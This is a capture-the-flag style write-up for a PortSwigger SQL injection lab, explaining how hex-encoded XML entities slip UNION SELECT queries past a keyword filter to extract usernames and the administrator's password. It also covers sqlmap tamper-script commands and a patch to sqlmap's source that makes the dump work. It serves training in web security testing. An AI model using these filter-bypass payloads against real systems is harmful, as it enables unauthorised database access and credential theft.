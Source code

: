 ```yaml
---
Challenge Name: SQL injection with Filter Bypass via XML Encoding
Category: SQL Injection
Difficulty: Practitioner
Link: https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding
---
```

[![VIDEO WALKTHROUGH](https://img.youtube.com/vi/2iqMm0gMyHk/0.jpg)](https://youtu.be/2iqMm0gMyHk "SQL injection with Filter Bypass via XML Encoding")

## Background
You can perform SQL injection attacks using any controllable input that is processed as a SQL query, e.g. some websites take input in JSON/XML format and use this to query the database.

Different formats may even provide alternative ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms.

Weak implementations often just look for common SQL injection keywords within the request and may be bypassed by simply encoding or escaping characters in the prohibited keywords.

The following example uses an XML escape sequence to encode the `S` character in `SELECT`:
```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.

## Challenge Description
>This [lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding) contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

>The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Solution
Modify the POST request to include a `'` and we get an error "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1'</productId>
	<storeId>1</storeId>
</stockCheck>
```

Similarly, when we input a keyword like `SELECT` or `UNION` we get "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 UNION</productId>
	<storeId>1</storeId>
</stockCheck>
```

When we try `&#x53;ELECT` there is no error.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x53;ELECT</productId>
	<storeId>1</storeId>
</stockCheck>
```

So we encode `UNION SELECT username FROM users` using the CyberChef encoder.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</productId>
	<storeId>1</storeId>
</stockCheck>
```

Unfortunately, this returns `0` but if we move the payload to the `<storeId>`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
</stockCheck>
```

The request returns a list of users.
```txt
carlos
administrator
382 units
wiener
```

Switch the parameter to password, e.g. `UNION SELECT password FROM users`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;</storeId>
</stockCheck>
```

This is fine but good practice (imagine we have thousands of users) to use `WHERE` clause to filter by username, e.g. `UNION SELECT password FROM users WHERE username = 'administrator'`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x57;&#x48;&#x45;&#x52;&#x45;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x3d;&#x20;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;</storeId>
</stockCheck>
```

Recover credentials so now we can login with `administrator:<REDACTED>`.

### Bonus - SQLMap Tamper Scripts
Now for the SQLMap approach. First, list the `-h` and `-hh` then show how we can list the potential `tamper` scripts with `sqlmap --list-tampers`:
```txt
* decentities.py - HTML encode in decimal (using code points) all characters (e.g. ' -> &#39;)
* hexentities.py - HTML encode in hexadecimal (using code points) all characters (e.g. ' -> &#x31;)
* htmlencode.py - HTML encode (using code points) all non-alphanumeric characters (e.g. ' -> &#39;)
```

Unfortunately, none of these worked - was expecting `hexentities.py` to work for sure. Increase verbosity to identify the issues.
```bash
sqlmap -r new.req --batch --tamper=hexentities -v 6
```

See the ouput `"This lab is not accessible over HTTP"` so we need HTTPS.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl
```

Still not working, might be better to debug by proxying through burp.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080
```

OK, so payload looks like.
```
&amp;#x31;&amp;#x20;&amp;#x4f;&amp;#x52;&amp;#x44;&amp;#x45;&amp;#x52;&amp;#x20;&amp;#x42;&amp;#x59;&amp;#x20;&amp;#x39;&amp;#x37;&amp;#x32;&amp;#x32;&amp;#x2d;&amp;#x2d;&amp;#x20;&amp;#x49;&amp;#x76;&amp;#x53;&amp;#x42;
```

But we don't want the `&amp;` - checked `-hh` and found  `--skip-urlencode`.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080 --skip-urlencode
```

This doesn't work and either does `--no-escape` - I tried to manually adjust the SQLMap code in both `convert.py` and `hexentities.py` but actually the payload looks ok when checking verbose mode.
```txt
[PAYLOAD] &#x35;&#x36;&#x32;&#x30;
```
It's only in the actual HTTP request POST data where we see.
```txt
&amp;#x35;&amp;#x36;&amp;#x32;&amp;#x30;
```

I didn't find a working solution for SQLMap, if you know how to prevent the encoding of `&amp;` leave a message on the [YT video](https://www.youtube.com/watch?v=2iqMm0gMyHk) or DM me on [Twitter](https://twitter.com/_CryptoCat) 🙂

**UPDATE:** 0x999 found a fix for this; you can remove the `.replace('&', "&amp;")` on line 1059 of the `sqlmap/lib/request/connect.py` file and it will successfully dump the database 😈 - https://twitter.com/_0x999/status/1615054152291258385

## Resources
- [CyberChef: Convert ASCII chars to HTML entities](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(true,'Hex%20entities')&input=VEVTVA)
- [Intigriti SQLi thread](https://twitter.com/intigriti/status/1612444237106126850)